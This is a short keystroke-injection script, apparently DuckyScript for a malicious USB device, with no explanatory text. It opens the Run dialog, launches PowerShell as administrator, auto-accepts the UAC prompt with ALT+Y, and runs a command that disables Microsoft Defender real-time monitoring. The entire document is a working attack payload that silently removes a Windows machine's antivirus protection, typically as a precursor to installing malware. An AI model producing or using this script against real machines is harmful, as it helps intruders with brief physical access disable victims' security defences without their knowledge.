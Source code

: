 
DELAY 1000
GUI r
DELAY 500
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 1000
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
DELAY 500
STRING exit
ENTER
